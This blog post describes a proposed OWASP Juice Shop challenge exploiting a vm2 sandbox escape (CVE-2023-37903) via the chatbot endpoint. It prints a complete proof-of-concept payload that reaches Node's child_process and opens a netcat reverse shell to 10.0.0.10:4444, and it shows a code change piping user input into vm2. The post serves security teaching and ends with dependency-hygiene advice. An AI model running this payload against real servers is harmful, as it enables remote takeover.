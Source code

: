 # Escaping the Sandbox: A Dependency Vulnerability RCE in OWASP Juice Shop

OWASP Juice Shop is a deliberately insecure web application disguised as an online store. It's intentionally packed with vulnerabilities, giving you a safe playground to hack, learn, and practice fixing real-world security flaws.

Recently, a community member, [Masoud Abdaal](https://github.com/MasoudAbdaal), proposed a brand-new Juice Shop challenge that's both terrifying and brilliant: exploit a **real-world dependency vulnerability**. Because, let's be honest, sometimes it's not your code that betrays you, it's that one shady npm package you installed at 2 AM.

The relevant code lives in [OWASP Juice Shop Commit cc75b13](https://github.com/juice-shop/juice-shop/tree/cc75b136f311942be6c18b4e940ffa0d3fef6689) and its chatbot dependency, [Juicy Chat Bot Commit 705832f](https://github.com/juice-shop/juicy-chat-bot/tree/705832f8e39fdf83804939a8f420c598ee293b50)

---

## The Villain: vm2 Sandbox

Juice Shop uses [`vm2`](https://www.npmjs.com/package/vm2), a Node.js sandboxing library. Think of vm2 as the bouncer at a sketchy nightclub. It's supposed to keep the chaos contained. Unfortunately, vm2 has had a history of vulnerabilities that basically let attackers walk right past the velvet rope.

One particularly nasty one is **CVE-2023-37903**:

* **Type:** Sandbox escape
* **Impact:** Remote Code Execution (RCE)
* **Severity:** "Why is the server suddenly mining Dogecoin?"

This maps neatly to **CWE-94: Improper Control of Code Generation** and **OWASP A08: Software and Data Integrity Failures**. 

Translation? You can trick vm2 into letting you run whatever code you want, like convincing the bouncer to hand you the keys to the bar.

---

## Setting Juice Shop Up for Trouble

To make Juice Shop juicy enough for the challenge, Masoud suggested a tiny tweak to the chatbot code:

```js
// https://github.com/juice-shop/juicy-chat-bot/blob/705832f8e39fdf83804939a8f420c598ee293b50/index.js

async respond(query, token) {
  const response = (await this.factory.run(query))
}
```

This little adjustment pipes untrusted user input directly into vm2.

---

## The Attack Flow (a.k.a. How to Break Things Systematically)

The challenge could guide learners through the full arc of supply chain villainy:

1. **Generate an SBOM (Software Bill of Materials).** Think of it as a shopping list of everything your app depends on. Spoiler: it's usually longer than your weekend grocery list.
2. **Import into Dependency-Track (or similar).** This is where the tool goes "Hey, your project depends on something… yikes."
3. **Spot the Vulnerability (CVE-2023-37903).** Time to connect the dots between npm packages and potential chaos.
4. **Craft a Payload.** By abusing symbols and `inspect.constructor`, you sneak access to Node's `process` object.
5. **Achieve RCE.** At this point, you're running arbitrary commands on the server, celebratory confetti optional.

---

## The Exploit (Don't Try This at Home… Unless Home Is Juice Shop)

Masoud showed off a proof-of-concept payload against the chatbot's `/rest/chatbot/respond` endpoint. It looks scary, but in plain English it's saying:

"Hey vm2, why don't you let me peek behind the curtain, grab Node's `child_process`, and run some good old-fashioned shell commands?"

```json
{
    "action":"query",
    "query":"const customInspectSymbol = Symbol.for(\"nodejs.util.inspect.custom\");\r\n\r\nobj = {\r\n    [customInspectSymbol]: (depth, opt, inspect) => {\r\n        inspect.constructor(\"return process\")().mainModule.require(\"child_process\").execSync(\"nc.exe 10.0.0.10 4444 -e cmd.exe\");\r\n    },\r\n    valueOf: undefined,\r\n    constructor: undefined,\r\n}\r\n\r\nWebAssembly.compileStreaming(obj).catch(()=>{});"
}
```

Voila, you have a reverse shell on your server.

![Reverse Shell on Juice Shop](media/blog5/exploit.png)

---

## The Plot Twist: No Challenge After All

As exciting as this exploit sounded, the Juice Shop maintainers made the responsible call: instead of shipping a shiny new challenge, they patched the vulnerability.

And honestly, that's the right move. While it would've been a blast to hack away at a sandbox escape inside Juice Shop, leaving a live RCE lying around in an educational app would've been like teaching kids about fire safety by handing them a flamethrower. 

The good news? The patch keeps Juice Shop safe for learners while still leaving plenty of other vulnerabilities to explore. The bad news? We'll just have to dream of what could've been the most "explosive" Juice Shop challenge yet.

---

## Why This Matters

This challenge is more than just "hacking for fun." It drives home some uncomfortable truths:

* **Dependencies are your frenemy.** Your code might be flawless, but one vulnerable library and it's game over.
* **SBOMs are not optional.** If you don't know what's inside your app, you're basically running a mystery stew in production.
* **Exploitation bridges theory and reality.** Reading CVEs is good; actually exploiting one makes the lesson unforgettable.

---

## Takeaways

* Update your dependencies. Regularly. Religiously.
* Use SBOMs and tools like Dependency-Track, Snyk, or OWASP Dependency-Check.
* Don't blindly trust sandboxing libraries. Attackers treat them like escape rooms.
* And if you're learning? Juice Shop remains the safest place to break things without your boss calling you into a "serious meeting."

---

## Credit:

[MasoudAbdaal's GitHub Issue #2715](https://github.com/juice-shop/juice-shop/issues/2715)

[MasoudAbdaal's GitHub profile](https://github.com/MasoudAbdaal)
